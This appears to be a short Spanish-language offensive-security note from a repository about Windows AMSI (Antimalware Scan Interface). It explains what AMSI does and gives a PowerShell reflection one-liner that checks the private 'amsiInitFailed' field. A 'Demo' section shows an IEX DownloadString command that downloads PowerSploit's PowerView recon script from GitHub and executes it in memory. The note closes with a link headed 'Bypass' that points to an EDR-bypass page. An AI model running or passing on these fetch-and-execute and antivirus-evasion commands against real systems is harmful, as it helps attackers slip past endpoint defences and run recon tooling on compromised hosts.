

# AMSI (Antimalware Scan Interface) 

Es una interfaz de Windows que permite a aplicaciones como PowerShell enviar contenido (scripts, cadenas, etc.) a un motor antivirus (como Windows Defender) para escanearlo antes de ejecutarlo.

## Verifica si AMSI esta activado

- False: Activo
- True: No Activo

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').GetValue($null)
```

## Demo

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')
```



## Bypass

[marshaling](../../../EDR-bypass/marshalling/README.md)

